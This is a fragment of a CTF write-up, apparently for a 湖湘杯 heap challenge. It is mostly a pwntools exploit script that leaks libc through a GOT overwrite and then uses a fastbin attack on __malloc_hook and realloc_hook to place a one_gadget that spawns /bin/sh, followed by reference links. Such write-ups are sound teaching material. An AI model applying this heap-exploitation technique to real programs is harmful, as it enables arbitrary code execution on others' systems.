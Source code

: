 ```
new(0x50,"ccc")
new(0x50,"ddd")
# overwrite free_got
printf_plt = elf.plt["printf"]
new(0x50,"a"*6+p64(0)+p64(printf_plt)[:7])
de(0)

# fastbin to malloc_hook
libc.address = int(r(14),16) - libc.sym["__libc_start_main"]-240
print hex(libc.address)
one = libc.address +0xf1147
m_hook = libc.sym["__malloc_hook"]
realloc = libc.sym["realloc"]
'''
0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
for i in range(5):
    de(0)

# attack to malloc_hook,realloc_hook
new(0x60,p64(m_hook-0x23))
new(0x60,"aa")
new(0x60,"aa")
new(0x60,"a"*0xb+p64(one)+p64(realloc+20))

print hex(one)
new(0x10,"/bin/sh")

io.interactive()

```

### 参考

[realloc_hook调整onegadget](https://blog.csdn.net/Maxmalloc/article/details/102535427)

[湖湘杯部分wp](https://mp.weixin.qq.com/s/4xMLgNek5uYkT8OhC6miew)

